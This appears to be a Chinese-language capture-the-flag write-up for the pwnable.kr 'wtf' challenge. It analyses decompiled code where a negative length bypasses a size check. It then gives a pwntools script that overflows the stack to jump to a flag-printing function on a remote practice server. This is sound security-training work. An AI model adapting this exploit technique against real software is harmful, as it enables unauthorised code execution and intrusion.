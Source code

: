```yaml
---
title: pwnable.kr_wtf
top: false
comment: false
lang: zh-CN
date: 2021-11-29 22:27:25
tags:
categories:
  - CTF
  - PWN
  - wp
  - pwnable.kr
---
```


# wtf

## 信息收集

### checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 程序执行

```
$ ./wtf 
klose
```

输入一个字符串，程序就退出了；

### IDA

放到ida64里分析；

#### main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char str[44]; // [rsp+10h] [rbp-30h] BYREF
  int input; // [rsp+3Ch] [rbp-4h] BYREF

  __isoc99_scanf("%d", &input);
  if ( input > 32 )
  {
    puts("preventing buffer overflow");
    input = 32;
  }
  my_fgets((__int64)str, input);
  return 0;
}
```

可以看到在条件判断的时候，并没有对`input`为负的情况进行处理；

#### my_fgets

```c
__int64 __fastcall my_fgets(__int64 str, int input)
{
  char buf; // [rsp+1Bh] [rbp-5h] BYREF
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; input-- != 0; ++i )
  {
    read(0, &buf, 1uLL);
    if ( buf == 10 )
      break;
    *(_BYTE *)(str + (int)i) = buf;
  }
  return i;
}
```

如果`main`函数传入的`input`参数是负数，那么`input-- != 0`的限制就失效了，于是可以一直以一个字节为单位不断输入数据到buf中；

#### win

```c
int win()
{
  return system("/bin/cat flag");
}
```

存在一个获取`flag`的函数；

## 漏洞利用

当我们输入负数的时候，可以利用整数溢出达到缓冲区溢出的作用；

测的时候得到的`padding`是`56`；

exp

```c
# coding:utf-8

from pwn import *
# p = process('./wtf')
p = remote('node4.buuoj.cn', '29310')
context.log_level = 'debug'

win_addr = 0x4005F4
payload = 'a' * 56 + p64(win_addr)
p.sendline('-1')
p.sendline(payload)
p.interactive()
```

有点简单。。

```
[*] Switching to interactive mode
flag{f44c6aff-26fe-415c-b3d1-d3baee69ba1a}
```

